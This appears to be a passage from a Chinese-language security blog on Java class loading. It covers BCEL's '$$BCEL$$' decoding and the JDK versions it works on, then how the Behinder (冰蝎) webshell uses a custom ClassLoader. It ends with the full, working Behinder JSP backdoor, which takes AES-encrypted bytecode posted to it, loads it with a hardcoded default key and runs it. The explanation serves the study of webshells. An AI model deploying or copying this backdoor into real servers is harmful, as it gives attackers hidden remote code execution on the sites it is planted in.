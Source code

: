 ```java
    return bytes;
  }
```

这里当`uncompress`参数为 true 时，会使用 gzip 解压缩字节流。

简单总结就是：如果被加载的类名中包含了`$$BCEL$$`关键字，BCEL就会使用特殊的方式进行解码并加载解码之后的类。

同时需要注意，对于原生的 BECL，这个特性只适用于 BECL 6.0 以下；在  Oracle JDK 中，已知的则只适用于以下版本：
```
JDK1.5 - 1.7
JDK8 - JDK8u241
JDK9
```

## 类加载在webshell中的应用

冰蝎的 jsp 后门就是通过自定义类加载器去实现：冰蝎的客户端将待执行的命令或者代码通过动态编译成类字节码并加密传到冰蝎的 JSP 后门，后门经过base64编码和 AES 解密后得到一个随机类名的类字节码，然后调用自定义的类加载器加载，最终通过重写的`Object`类的`equals`方法实现攻击利用。其中`equals`方法传入的`pageContext`对象是为了便于获取到请求和响应对象，需要注意的是冰蝎的命令执行等参数不会从请求中获取，而是直接插入到了类成员变量中。

冰蝎 JSP 后门
```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {

        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%>
<%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
    }
%>
```
